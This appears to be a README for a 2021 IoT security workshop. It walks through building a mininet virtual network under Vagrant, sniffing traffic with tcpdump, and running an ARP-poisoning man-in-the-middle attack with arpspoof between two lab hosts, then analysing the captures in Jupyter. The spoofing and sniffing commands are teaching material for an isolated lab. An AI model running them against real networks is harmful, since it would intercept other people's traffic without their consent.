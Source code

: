 # Workshop

This workshop is a crash course on creating and analyzing an Internet of Things (IoT) network. The presenters will demonstrate how to set up an IoT lab that mimics a modern home network, how to capture traffic between devices, and how to analyze and visualize this data. They also will discuss basic packet altering methods and how to expand this setup to test different cybersecurity scenarios (ex. Man in the Middle Attack). Participants will learn skills that can apply to their career and home network (all skill levels welcome). To start, the presenters will demonstrate how to set up a hardware lab of devices (ex. Raspberry Pi) in common home network configurations. They will focus on setting up IoT devices of different capability levels that allow for transmitting, receiving and capturing data. They will analyze the data pulled from this setup to later determine network behavior and security risks. Next, they will instruct attendees on how to login to devices in the IoT lab as well as how to start capturing network traffic. Participants will learn and use common packet capturing and network analysis tools (ex. nmap). To mimic common malicious cybersecurity scenarios, the presenters will demonstrate how to delete or alter packets traveling between devices. Finally, this presentation will use Python to complete basic analysis and visualization of captured network traffic. Attendees will learn about different exploratory data pre-processing techniques, calculate statistics on the network, and use common visualization libraries to gain visual insight on the network’s behavior.

## Necessary Tools

To run the virtual part of this workshop, you will need to download the following dependencies:

* https://www.vagrantup.com/downloads
* https://www.virtualbox.org/wiki/Downloads

## Clone the GitHub Repo

```console
git clone https://github.com/stresearch/wicys-2021-iot.git
```

## Vagrant Setup (Testing in virtual network)

Vagrant is a tool for building and managing virtual machine environments. We're using it on this project to have a common dev environment for everyone in the workshop, regardless of whether they have a MacOS / Windows / Linux host machine. Vagrant can be used with different hypervisors, but for this workshop we'll be using VirtualBox. To create and configure the virtual machine, run the following commands:

```console
cd wicys-2021-iot/
vagrant plugin install vagrant-vbguest
vagrant up
```

## Create the Virtual Test Network

Now that our dev environment has been created, we will need to create the virtual test network within the environment. We will be using a utility called `mininet`.

* http://mininet.org

First, ssh into the dev environment:

```console
vagrant ssh
```

Now let's start up the virtual network:

```console
sudo mn --topo single,5 --nat
```

Once you run this, you'll be in the mininet CLI (command-line interface).

## Start the MITM attack

We were able to see the traffic from `tcpdump` because we executed the command from the "router" within our virtual test network. With the mitm attack, we will want to be able to see traffic from a host within the network that is not the router.

For this example, we will execute the mitm attack from `h1`, and target `h2`. In our dev environment, we can execute shell commands in `h1` using the following command:

```console
h1 BASH_COMMAND_HERE
```

First, we'll need to generate traffic from h2:

```console
h2 watch -n 5 curl www.icanhazip.com >/dev/null 2>&1 &
```

First, we'll try to sniff `h2` traffic from `h1`. To do this, we'll use `tcpdump`.

* https://linux.die.net/man/8/tcpdump

```console
h1 tcpdump -i h1-eth0 src host 10.0.0.2
```

After waiting a few seconds, it looks like we don't see any traffic...

So let's use arp poisoning! For that, we'll be using arpspoof:

* https://linux.die.net/man/8/arpspoof


```console
h1 arpspoof -i h1-eth0 -t 10.0.0.2 -r 10.0.0.6 
```

We can see the mac addresses that it is spoofing, let's run it in the background and silience the output so that stdout isn't distracting us:

```console
h1 arpspoof -i h1-eth0 -t 10.0.0.2 -r 10.0.0.6 >/dev/null 2>&1 &
```

Now that we are spoofing the arp packets, let's try to sniff the traffic from h2:

```console
h1 tcpdump -i h1-eth0 src host 10.0.0.2 and not arp
```

Now we see traffic! :)

## Analysis

Now to do analysis, we're going to get jupyter notebook running.
```console
cd wicys-2021-iot/analysis/
jupyter-notebook --ip=0.0.0.0
```

Copy the last URL and type it into your browser, and you'll be able to access the notebooks. Open `CSV_Playground.ipynb`